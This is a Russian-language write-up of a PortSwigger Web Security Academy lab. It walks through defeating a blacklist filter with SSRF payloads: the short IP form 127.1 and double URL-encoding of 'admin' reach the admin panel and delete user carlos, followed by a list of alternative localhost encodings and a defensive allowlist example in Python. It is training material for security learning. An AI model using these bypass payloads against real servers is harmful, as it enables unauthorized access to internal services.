





## Lab: SSRF with blacklist-based input filter

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SSRF  
**Сложность:** Practitioner  
**Дата:** 2025-07-17  

---

## TL;DR
Blacklist фильтр блокирует `127.0.0.1`, `localhost` и слово `admin`.
Обойдено через альтернативную запись IP (`127.1`) и двойное
URL-кодирование слова admin (`%2561dmin`). Удалён пользователь `carlos`.

---

## Описание уязвимости

Параметр `stockApi` уязвим к SSRF как в базовой лабе. Разработчик
добавил два blacklist-фильтра для защиты. Blacklist — слабая защита:
невозможно предусмотреть все варианты записи одного и того же адреса.

> Главный принцип обхода blacklist — одно и то же значение можно
> записать множеством способов. Фильтр знает про очевидные варианты,
> но не про все.

---

## Обход фильтра 1 — блокировка localhost

### Шаг 1 — Проверка стандартных вариантов

Перехватила запрос Check stock, отправила в Repeater.
Попробовала стандартные варианты localhost:

```
stockApi=http://127.0.0.1/   → 400 заблокировано
stockApi=http://localhost/   → 400 заблокировано
```

Фильтр знает про `127.0.0.1` и `localhost` — блокирует оба.



### Шаг 2 — Обход через краткую запись IP

Попробовала альтернативную краткую запись IP. В IP протоколе
пропущенные октеты считаются нулями — `127.1` это то же самое
что `127.0.0.1`:

```
stockApi=http://127.1/   → 200 пропущено!
```

Фильтр не знает про краткую запись `127.1` — пропускает.
Сервер резолвит её как `127.0.0.1`.



---

## Обход фильтра 2 — блокировка слова admin

### Шаг 3 — Проверка блокировки /admin

Попробовала получить доступ к админ-панели:

```
stockApi=http://127.1/admin   → 400 заблокировано
```

Фильтр находит слово `admin` в URL — блокирует.



### Шаг 4 — Обход через двойное URL-кодирование

Применила двойное URL-кодирование буквы `a`:

```
a → %61 (URL-кодирование)
% → %25 (URL-кодирование символа %)
Итого: a → %2561 (двойное кодирование)
```

Фильтр видит `%2561dmin` — не находит слово `admin` — пропускает.
Сервер декодирует дважды и получает `admin`:

```
%2561dmin
→ %25 декодируется в %  →  %61dmin
→ %61 декодируется в a  →  admin
```

```
stockApi=http://127.1/%2561dmin   → 200 пропущено!
```

В ответе вернулся HTML страницы администратора.



---

## Эксплуатация

### Шаг 5 — Удаление пользователя carlos

В HTML ответа нашла ссылку на удаление `carlos`.
Применила те же обходы к финальному запросу:

```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

Оба фильтра обойдены — сервер выполнил запрос от своего имени,
пользователь удалён.



---

## Все альтернативные записи localhost

```
http://127.0.0.1           — стандартный (обычно заблокирован)
http://localhost           — стандартный (обычно заблокирован)
http://127.1               — краткая запись (часто пропускают)
http://2130706433          — десятичное представление IP
http://0x7f000001          — hex представление IP
http://0177.0.0.1          — восьмеричное представление
http://[::1]               — IPv6 localhost
http://[::ffff:127.0.0.1]  — IPv6 mapped IPv4
```

---

## Итог

Blacklist фильтрация — слабая защита от SSRF. IP-адрес `127.0.0.1`
имеет десятки эквивалентных записей, предусмотреть все невозможно.
Двойное URL-кодирование обходит текстовые фильтры которые декодируют
URL только один раз. Надёжная защита — allowlist разрешённых доменов,
а не blocklist запрещённых значений.

---

## Защита

```python
from urllib.parse import urlparse
import ipaddress
import socket

ALLOWED_HOSTS = ['stock.weliketoshop.net']

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)

    # Резолвим hostname в IP для проверки
    # (защита от обфускации через альтернативные записи)
    try:
        ip = ipaddress.ip_address(
            socket.gethostbyname(parsed.hostname)
        )
        if ip.is_private or ip.is_loopback:
            return False
    except Exception:
        return False

    # Allowlist вместо blocklist
    if parsed.hostname not in ALLOWED_HOSTS:
        return False

    return True

# Использование:
if not is_safe_url(stock_api_url):
    abort(400, "Invalid URL")
```
Дополнительно:
- Резолвить hostname в IP **перед** проверкой — тогда все
  альтернативные записи (`127.1`, `0x7f000001` и т.д.)
  резолвятся в один IP и блокируются одной проверкой
- Использовать allowlist доменов вместо blocklist —
  невозможно заблокировать все варианты записи запрещённых адресов
- Выполнять запросы через изолированный прокси
  без доступа к внутренней сети